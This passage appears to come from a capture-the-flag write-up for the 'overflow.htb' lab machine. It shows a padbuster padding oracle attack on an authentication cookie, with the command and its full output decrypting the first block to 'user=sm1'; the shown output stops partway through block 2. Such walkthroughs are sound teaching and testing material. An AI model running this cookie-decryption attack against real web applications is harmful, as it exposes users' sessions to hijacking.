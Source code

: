 The cookie is vulnerable to an oracle padding attack which let's us decrypt the value of the cookie in a first run using padbuster with a valid authenticated cookie.

```
$ padbuster http://overflow.htb g%2Bw7A9KF5m6lJbDY9WSBRqO%2FwK4vvZOx 8 -cookies auth=g%2Bw7A9KF5m6lJbDY9WSBRqO%2FwK4vvZOx -encoding 0

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 302
[+] Location: home/index.php
[+] Content Length: 12227

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     12227   N/A
2 **    255     302     0       ../logout.php?err=1
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (162/256) [Byte 8]
[+] Success: (119/256) [Byte 7]
[+] Success: (11/256) [Byte 6]
[+] Success: (21/256) [Byte 5]
[+] Success: (140/256) [Byte 4]
[+] Success: (168/256) [Byte 3]
[+] Success: (104/256) [Byte 2]
[+] Success: (2/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): a525b0d8f5648146
[+] Intermediate Bytes (HEX): f69f5e71eff68b5f
[+] Plain Text: user=sm1

Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.
*** Starting Block 2 of 2 ***

[+] Success: (190/256) [Byte 8]
[+] Success: (122/256) [Byte 7]
[+] Success: (158/256) [Byte 6]
[+] Success: (12/256) [Byte 5]
[+] Success: (40/256) [Byte 4]
[+] Success: (52/256) [Byte 3]
[+] Success: (239/256) [Byte 2]
```